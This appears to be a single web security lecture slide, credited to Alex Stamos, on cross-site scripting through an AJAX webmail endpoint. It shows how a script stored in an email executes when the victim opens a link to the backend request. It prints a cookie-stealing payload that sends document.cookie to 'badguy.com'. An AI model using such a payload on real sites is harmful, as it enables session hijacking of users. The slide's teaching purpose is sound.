

# XSS in AJAX (3)
Attacker sends the victim an email with a script
Email is parsed from the data array, written into HTML with innerText(), displayed harmlessly
Attacker sends the victim an email with a link to backend request, victim clicks
The browser will issue this request:
GET http://www.webmail.com/mymail/getnewmessages.aspx
… and display this text:
var messageArray = new Array();
messageArray[0] = “<script>var i = new Image(); i.src=‘http://badguy.com/’ + document.cookie;</script>”
Source: Alex Stamos